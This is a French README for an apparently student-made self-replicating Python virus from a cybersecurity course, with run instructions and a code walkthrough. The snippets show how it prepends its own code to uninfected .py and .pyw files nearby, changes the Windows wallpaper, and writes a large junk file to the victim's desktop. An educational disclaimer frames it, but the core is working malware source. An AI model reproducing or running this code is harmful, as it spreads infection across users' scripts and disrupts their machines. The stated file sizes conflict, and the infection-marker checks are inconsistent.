 ![Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/f/f8/Python_logo_and_wordmark.svg/2560px-Python_logo_and_wordmark.svg.png)

**Python-virus** est un projet issu d'un cours d'1,5 jours. Il s'agit d'un virus s'auto répliquant pour assurer sa pérénité. 

> **Il s'agit d'un programme à portée éducative uniquement et ne doit être utilisé que comme tel sur du matériel appartenant à l'utilisateur.**

# Description du projet
> "*On n'est jamais qu'à 5 poignées de mains du Pape !*"

Le virus fonctionne en transportant et/ou exécutant une charge virale s'injectant dans tout autre fichier Python environnant qui n'a pas déjà été infecté. Ainsi, les fichiers nouvellement infectés exécuteront la charge virale tout en servant de rebond pour en infecter d'autres.

## Etat d'avancement du projet

- [x] Détermination de l'état d'inféction actuel d'un fichier
- [x] Propagation aux fichiers Python environnants pas encore infectés
- [X] Mise en place du payload
- [X] **Payload**: changement du fond d'écran
- [X] **Payload**: embedder l'image en base64 dans le script
- [X] **Payload**: création de fichiers non désirés sur le bureau
- [ ] Mise en place d'un mode "infection uniquement" n'exécutant **pas** le payload
- [ ] Gestion des mises à jour du code malveillant
- [ ] Infection de l'intégralité des scripts Python de l'utilisateur
- [ ] Infection de l'intégralité des bibliothèques Python installées
- [ ] Infection des bibliothèques Python installées dans l'environnement virtuel d'exécution

## Dépendances du projet
Ce programme ne repose que sur des bibliothèques Python 3 de base. Il conviendra d'importer les bibliothèques nécessaires au bon fonctionnement du payload. 

# Utilisation
## Prérequis
### Préparation de l'environnement de travail
Il est fortement recommandé d'exécuter ce programme dans une machine virtuelle.

- Création d'un environnement virtuel: ```python -m venv env```

- Activation de cet environnement virtuel: ```./env/Scripts/activate```

## Exécution

Le programme s'exécute en saisissant ```python virus.py```.

Si l'exécution fonctionne, le payload s'exécute (amélioration à venir) et le virus se réplique sur les fichiers ```.py``` et ```.pyw``` environnants.

# Déconstruction du code

```python 
with open(sys.argv[0], 'r') as f:
    virusLines = f.readlines()
``` 
> Ouvre le fichier actuellement exécuté et imprime son contenu dans la variable ```virusLines```

```python 
isInfected = False
for eachLine in virusLines:
    if eachLine == "#start":
        isInfected = True
    if not isInfected:
        virusCode.append(eachLine)
    if eachLine == "#stop":
        break 
```
> Lit chaque ligne de la variable ```virusLines``` correspondant au fichier ouvert. Si la ligne actuelle est égale au délimiteur de début ```#start```, le code détermine que le fichier a déjà été infecté et ne fait plus rien jusqu'à atteindre la ligne contenant le délimiteur de fin  ```#stop```. Si le fichier ne contient pas ```#start``` il  n'est alors pas considéré comme infecté, et on ajoute à un tableau ```virusCode``` le contenu entre les délimiteurs.



```python
otherPythonFiles = glob.glob('*.py') + glob.glob('*.pyw')
isInfected = False
for eachFile in otherPythonFiles:
    with open(eachFile, 'r') as f:
        originalCode = f.readlines()
    isInfected = False
    for line in originalCode:
        if line == "#start\n":
            isInfected = True
            break
    if not isInfected:
        fullHackedCode = []
        fullHackedCode.extend(virusCode)
        fullHackedCode.extend('\n')
        fullHackedCode.extend(originalCode)
        with open(eachFile, 'w') as f:
            f.writelines(fullHackedCode)
```
> Pour chaque fichier Python environnant trouvé par le module ```glob```, on imprime son contenu dans la variable ```originalCode```, puis on cherche la présence du délimiteur de début en première ligne du fichier ouvert. Si on le trouve, on ne fait rien car le fichier est déjà infecté; sinon on remplace son  contenu par la variable ```fullHackedCode``` qui est un tableau contenant respectivement: le code du virus, un retour chariot, le code originel. Le fichier Python nouvellement infecté reste donc fonctionnel mais exécutera une charge virale ET se propagera à son tour aux fichiers Python environnants.

```python
wallpaperPath = os.path.abspath("pwned.jpg")
ctypes.windll.user32.SystemParametersInfoW(20, 0, wallpaperPath , 0)
   
x = 1
pathToInfect = str(os.path.join(os.environ['USERPROFILE'], "Desktop"))
for i in range(x):
    file = open(pathToInfect+"\pwned!_%d.txt" % i, "w")
    num_chars = 3125000
    file.write("Votre PC à été infécté par un étudiant de l'IPSSI :) profitez de ces " + str(x) + " fichiers d'environ 500 Mo! \n\n")
    file.write(''.join(random.choice('0123456789ABCDEF') for i in range(16)) * num_chars)
    file.close()
```
> Changement du fond d'écran par le fichier stocké dans ```pwned.jpg```, et création de ```x``` fichiers sur le bureau de la victime, faisant 50 Mo chacun.

# Crédits
## Auteur

Par François B, étudiant à l'école IPSSI en première année de master Cybersécurité & cloud-computing

Merci à Christian A, enseignants chercheurs

## Licence

Ce programme a été créé dans un but purement éducatif et n'est soumis en tant que tel à aucune licence.
Les licences des bibliothèques et interprêteurs utilisés s'appliquent.


